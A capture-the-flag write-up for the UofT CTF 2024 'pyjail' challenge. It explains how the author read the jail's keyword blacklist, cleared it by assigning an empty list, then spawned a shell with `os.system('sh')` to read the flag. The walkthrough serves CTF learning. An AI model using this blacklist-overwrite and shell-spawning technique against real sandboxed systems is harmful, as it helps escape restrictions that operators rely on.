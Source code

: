 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 100
solves: 295
tags: jail pyjail blacklist
date: 2024-1-15
comments: false
---
```


@windex told me that jails should be sourceless. So no source for you.  

Author: SteakEnthusiast  

`nc 35.226.249.45 5000`  

---

We're given a pyjail without a source file.  

After a bit of exploration, I entered `print(dir())`. This returned the following:  

```py
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'cmd', 'i']
```

So there's a blacklist variable. Can we print it out?  

```py
print(blacklist)
```

This returns:

```py
['import', 'exec', 'eval', 'os', 'open', 'read', 'system', 'module', 'write', '.']
```

Perfect. Now we know what's blacklisted.  

I wasn't sure how to proceed, so I turned to Google. By simply searching `pyjail blacklist`, I found [this](https://ctftime.org/writeup/37232). Its input didn't quite work since it included a `.`, but it gave me an idea. What if I just set blacklist to an empty list?  

```py
blacklist = []
print(blacklist)
```

```py
[]
```

It worked! Now we can just pop a shell and get the flag:  

```py
import os; os.system('sh')
```

```
ls
cat flag
```

    uoftctf{you_got_out_of_jail_free}